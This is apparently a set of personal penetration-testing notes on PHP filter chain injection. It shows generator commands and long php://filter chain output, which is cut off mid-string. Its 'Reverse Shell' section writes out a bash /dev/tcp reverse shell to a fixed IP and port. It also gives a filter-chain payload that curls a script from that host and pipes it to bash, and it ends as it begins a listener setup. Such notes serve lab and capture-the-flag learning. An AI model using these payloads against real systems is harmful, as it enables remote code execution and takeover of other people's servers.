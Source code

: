 Example :

```
└─$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  ' 
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|co
```

## Reverse Shell

https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/

For the [[3 - Tags/Hacking Concepts/Reverse Shell]] first we create a [[Shell]] [[Script]] named **"revshell"** in local machine.

```
bash -i >& /dev/tcp/10.8.162.183/1337 0>&1

```

Then create a chain using a generator.  
Replace the [[IP address]] with your own.

```Linux
└─$ # `<?= ?>` is a shorthand for `<?php echo ~ ?>`
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.8.162.183/revshell|bash` ?>'

[+] The following gadget chain will generate the following code : <?= `curl -s -L 10.8.162.183/revshell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjguMTYyLjE4My9yZXZzaGVsbHxiYXNoYCA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-
```

We need to start a web [[Server]] with [[Python]] that hosts the shell script, and also start a listener for receiving the reverse connection using [[Netcat]] :
